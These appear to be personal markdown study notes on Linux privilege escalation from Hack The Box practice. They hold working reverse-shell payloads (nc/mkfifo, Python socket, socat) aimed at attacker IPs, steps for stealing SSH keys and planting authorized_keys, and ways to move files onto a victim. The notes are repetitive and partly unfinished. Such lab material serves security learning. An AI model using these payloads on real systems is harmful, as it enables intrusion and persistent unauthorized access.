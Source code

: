 # Privilege Escalation  😈

## Two Types of Priv Esc  
<blockquote>
There are two common types of privilege escalation: vertical and horizontal. Vertical privilege escalation involves a user accessing files or functions that are normally associated with accounts that have higher privileges. Horizontal privilege escalation allows users to access resources in other accounts with similar privilege levels as they have.
</blockquote>



## Linux-Smart-Enumeration
* Check out the github page right <a href="https://github.com/diego-treitos/linux-smart-enumeration">here</a>.




## Most Reliable Reverse Shell Payload  
	```console
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
	```  


* Python Rev Shell  

```console
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



## Upgrade the Reverse Shell   



* Using `socat` instead of `nc`  

	```console
	#Listener
	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim  
	socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
	```  

* Using stty options (Never Worked With Me) 
	```console
	# In reverse shell 
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	ctrl-z  

	# In Kali 
	stty raw -echo  
	fg

	# In reverse shell
	reset
	export SHELL=bash
	export TERM=xterm-256color
	stty rows <num> columns <num2>
	```

* If we type `stty -a` it will give me info and I can get the rows and columns from there.
* I can also echo the $TERM variable and put its value in the reverse shell as the value I have on my Kali.  

## Sudo & Sudoers   

* We can use `sudo` to give the current user privilege to do something as another user as follows `sudo -u [USERNAME] [COMMAND]` by default without the `-u` option it gives the user root privilege if the user was in the sudoers file, which also can't be accessed unless the user had privilege to access it.
* To check if the user have access to use sudo, especially that sometimes a user can have access to sudo a specific command and not everything, we can use this command `sudo -l` which should open the sudoers file unless we don't have privilege to do so.   
* With regard to privilege escalation we can also exploit the sudo command itself by checking if it's version have any already existing exploits. I can get the version in multiple ways and one of these ways is to when using linPEAS.



### When Using gcc  
* The option `-Wall` is a warning option.

### SSH Keys   

* We can use ssh keys to privesc  

```console
Shatha Barqawi@htb[/htb]$ vim id_rsa
Shatha Barqawi@htb[/htb]$ chmod 600 id_rsa
Shatha Barqawi@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```  

* This ssh key can be found in the following path if I have access to it `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`.

<blockquote>
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.
</blockquote>   

* We can also put our public key in the directory `/home/user/.ssh/authorized_keys` if we have the permissions to do so. How to do that?  

* Create key on my machine 
	```console
	Shatha Barqawi@htb[/htb]$ ssh-keygen -f key
	```
* This will create two file `key` (which we will use with `ssh -i`) and `key.pub`(which we will copy to the remote machine).

### Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

	```console
	scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
	```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  


### The Shells on Victims   
* We can find the shells that can be used on the victim's machine with the following command in the following file   `cat /etc/shells`.

### The `tee` Command

* Store the output of a command in a file with the following command `[COMMAND] | tee [FILE NAME]`.   

### The `dpkg -l`  Command   
* Shows the packages and libraries on the system.
* Is it exclusively used on Debian based Linux? Seems so -- not sure tho.🤔

* Write about the $PATH variable how to add to it.
```console
export PATH=$PATH:/tmp
#or
export PATH=/tmp:$PATH
```

____ 
I have to write more about this 
* SUID (Set owner User ID)



<br/>

* `[COMMAND] | tee [FILE NAME]` 
* Stores output of the command in a file.  

<br/>

* `dpkg -l`  
* Shows the packages and libraries on system.
* I think this command is only for Debian based OSes 🤔.


<br/>

* Some info on gcc  
* The option `-Wall` is a warning option.  
* ### <span class="useful_shit subtitle">Upgrading The Reverse Shell   

* The bitch machine Cronos keeps making problems for me and I can't seem to open the admin some times. So I wasn't able to test the ways I'll be mentioning next (I got them from this <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/">website</a>)  


* NetCat 
  * It can be used to scan for open ports `nc -z -v 10.10.8.8 20-80`.  


